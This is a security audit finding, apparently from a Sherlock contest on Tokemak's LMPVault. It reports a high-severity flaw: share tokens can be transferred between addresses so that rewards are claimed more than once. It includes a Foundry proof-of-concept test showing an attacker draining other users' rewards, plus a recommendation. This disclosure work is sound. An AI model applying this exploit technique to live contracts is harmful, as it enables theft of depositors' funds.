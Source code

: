 Clean Fuchsia Blackbird

high

# User can transfer LMPVault shares to claim rewards multiple times
## Summary

Users deposit funds into LMPVault through the router. They get a share of the generated rewards. ERC20 token represents those shares. Anyone can transfer those shares between multiple addresses to claim rewards more times.

## Vulnerability Detail

A user gets tokens for every deposit into LMPVault. Those tokens represent shares on Vault deposits and rewards.
After rewards accumulate, the user can call the collectRewards function to get rewards based on his shares.
No mechanism prohibits the user from sending those share tokens to another address and claiming rewards multiple times.
Malicious user steals other users' rewards with this simple technique.

### POC

Paste this test function to **LMPVault-Withdraw.t.sol**.

It is necessary to update **IBaseRewarder.sol** for the purpose of this demo. Paste ```function setTokeLockDuration(uint256 _tokeLockDuration) external;``` to expose the function.

Run the test using this command ```forge test --match-contract LMPVaultMintingTests --match-test test_stealRewards```.

```solidity
function test_stealRewards() public {
    // Prepare rewards
    _accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
    _lmpVault.rewarder().addToWhitelist(address(this));
    // setTokeLockDuration not present in IBaseRewarder.sol - function setTokeLockDuration(uint256 _tokeLockDuration) external;
    // Lock duration is set to zero for the demonstration that the user can claim rewards with the same shares transferred to another address
    _lmpVault.rewarder().setTokeLockDuration(0);
    _toke.mint(address(this), 1000e18);
    _toke.approve(address(_lmpVault.rewarder()), 1000e18);
    _lmpVault.rewarder().queueNewRewards(1000e18);

    // Prepare users
    address user1 = makeAddr("1");
    address user2 = makeAddr("2");
    address attacker1 = makeAddr("3");
    address attacker2 = makeAddr("4");
    _asset.mint(user1, 1000);
    _asset.mint(user2, 1000);
    _asset.mint(attacker1, 1000);

    assertEq(_lmpVault.balanceOf(address(this)), 0);
    assertEq(_lmpVault.rewarder().balanceOf(address(this)), 0);

    // Deposit
    vm.startPrank(attacker1);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, attacker1);
    vm.stopPrank();

    vm.startPrank(user1);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, user1);
    vm.stopPrank();

    vm.startPrank(user2);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, user2);
    vm.stopPrank();

    assert(_toke.balanceOf(attacker1) == 0);
    assert(_toke.balanceOf(attacker2) == 0);

    // Warp forward
    vm.roll(block.number + 10_000);

    // Get rewards and transfer shares to the second address
    vm.startPrank(attacker1);
    _lmpVault.rewarder().getReward();
    _lmpVault.transfer(attacker2, 1000);
    vm.stopPrank();

    // Get rewards with seconds address
    vm.startPrank(attacker2);
    _lmpVault.rewarder().getReward();
    vm.stopPrank();
    
    assert(_toke.balanceOf(attacker1) > 0);
    assert(_toke.balanceOf(attacker2) > 0);
}
```

## Impact

Rewards of other users get stolen by one malicious user who transfers share tokens between multiple addresses.

## Code Snippet

[https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/MainRewarder.sol#L95C5-L117C6](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/MainRewarder.sol#L95C5-L117C6)

[https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L128C4-L140C6](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L128C4-L140C6)

## Tool used

Manual Review

## Recommendation

Prohibit share token transfers between users or track eligibility.
